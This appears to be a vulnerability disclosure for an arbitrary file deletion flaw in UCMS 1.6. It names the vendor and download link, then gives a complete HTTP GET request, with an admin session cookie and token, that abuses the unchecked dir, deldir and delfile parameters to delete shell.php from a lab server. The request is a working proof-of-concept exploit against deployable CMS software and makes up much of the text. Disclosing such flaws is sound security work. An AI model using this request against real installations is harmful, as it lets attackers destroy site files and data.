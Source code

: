 ## Arbitrary file deletion vulnerability exists in UCMS 1.6

vendor: http://uuu.la/

Download link for UCMS-1.6 installation package: http://uuu.la/uploadfile/file/ucms_1.6.zip

At present, there is a shell.php file in the directory of our website.

![image](https://user-images.githubusercontent.com/54017627/161382570-9bf1a492-9e80-4f2d-affe-bc3e61cf3a10.png)

We send a request packet for file deletion，We can see how the dir parameter and deldir parameter are not limited.

```sql
GET /ucms_1.6/ucms/index.php?do=sadmin_file&uuu_token=8945ab62&dir=/&deldir=/&delfile=shell.php HTTP/1.1
Host: 192.168.1.101
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101/ucms_1.6/ucms/index.php?do=sadmin_file&dir=/ucms_1.6/uploadfile
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_adc3f8=admin; psw_adc3f8=97376f13bb0b37ffdc31255d275d609c; token_adc3f8=8945ab62
Connection: close
```

Let's go to the root directory of the website and find that the shell.php file has been deleted successfully.

![image](https://user-images.githubusercontent.com/54017627/161382676-5945c0cd-c444-420b-a2d8-d9dfe4497343.png)
